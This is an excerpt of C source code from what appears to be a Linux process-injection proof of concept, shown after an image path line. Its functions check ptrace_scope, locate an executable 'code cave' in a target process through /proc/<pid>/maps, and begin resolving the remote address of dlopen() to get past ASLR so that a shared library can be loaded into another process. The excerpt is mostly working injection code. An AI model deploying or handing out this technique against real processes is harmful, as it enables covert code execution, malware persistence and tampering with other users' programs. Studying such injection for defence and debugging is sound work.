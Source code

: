 ```c
    n = read(fd, scope, 1);
    if (n < 0) {
        fprintf(stderr, "[-] Error: could not read ptrace_scope\n");
        close(fd);
        exit(-1);
    }
    close(fd);
    return atoi(scope); 
}

// Find a region for our code cave
// Copied from https://github.com/gaffe23/linux-inject/blob/master/utils.c

unsigned long long freespaceaddr(pid_t pid)
{
    FILE *fp;
    char filename[30];
    char line[850];
    unsigned long long addr = NULL;
    char str[20];
    char perms[5];
    sprintf(filename, "/proc/%d/maps", pid);
    fp = fopen(filename, "r");
    if(fp == NULL)
        exit(1);
    while(fgets(line, 850, fp) != NULL)
    {
        sscanf(line, "%lx-%*lx %s %*s %s %*d", &addr, perms, str);

        if(strstr(perms, "r-xp") != NULL)
        {
            break;
        }
    }
    fclose(fp);
    return addr;
}

// Use this function to calculate the dlopen() addr in remote pid
// This is needed because of ASLR :(
// IMPORTANT!!!! I hardcoded the name of the .so as LIBDLSO because it is just a PoC. You need to retrieve it at runtime ;D
unsigned long long dlopen_addr(pid_t pid) {
    unsigned long long remote_libdl_base, offset_dlopen, remote_dlopen_address;
    void *local_libdl_base, *local_dlopen_address;
    char path[1024];
    char line[850];
    FILE *fp;

    // First we need to load libdl and save the address (debug purposes)
    local_libdl_base = dlopen(LIBDLSO, RTLD_LAZY);
    if (!local_libdl_base) {
        fprintf(stderr, "[-] Error: could not load local %s\n", LIBDLSO);
        exit(-1);
    }
    fprintf(stderr, "[+] Local %s address at %p\n", LIBDLSO, local_libdl_base);
    
    // Next we are going to resolve the dlopen() symbol
    local_dlopen_address = dlsym(local_libdl_base, "dlopen");
    if (!local_dlopen_address) {
        fprintf(stderr, "[-] Error: local dlopen() not found!\n");
        exit(-1);
    }
```